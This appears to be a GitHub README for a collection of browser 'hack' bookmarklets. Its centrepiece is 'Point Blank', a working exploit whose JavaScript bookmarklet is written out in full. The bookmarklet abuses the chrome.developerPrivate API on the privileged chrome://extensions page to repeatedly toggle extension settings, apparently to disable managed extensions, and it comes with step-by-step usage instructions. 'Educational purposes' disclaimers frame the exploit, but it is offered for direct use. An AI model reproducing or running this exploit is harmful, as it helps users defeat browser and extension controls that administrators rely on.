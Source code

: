 Hey, welcome to the HackCollection. Here I enter in my hacks.
ALL MY HACKS ARE BOOKMARKLETS!
I do not condone hacking, this is for educational purposes.
This is all subject to change. Feel free to make issues and I will be sure to add the updated hacks.

If you have any issues please let me know.


HOW TO USE

 Once you have found a hack you like, you are to double click it and drag it to your Bookmark Bar. once you are done, just go to said site and click the bookmark.


CREDIT GOES TO hostedposted, AgrTheDev AND milantje200
Point Blank is an exploit that allows you to run bookmarklets on privilaged pages, sutch as the chrome extentions page. This exploit was also found by Bypassi, you can read more about how he discovered this exploit You can either use the prompt or the gui the prompt is below 1. Bookmark this code:
javascript:let shim = false;var ids = prompt("extension ids (comma separated)").split(",");setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 145);
And the gui is in launcher.js 2. Navigate to chrome://extensions 3. Click on a extension that YOU installed from the Chrome Web Store > Details 4. In the URL bar, copy the string of letters and numbers after the /?id= 5. Click "View in Chrome Web Store" and spam the excape key. If it loads into chrome webstore try again, if it is a blank screen click the bookmarklet 5. Paste the id of the extension into the prompt or input box seperated by commas. If you close the tab, the exploit will stop working.

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
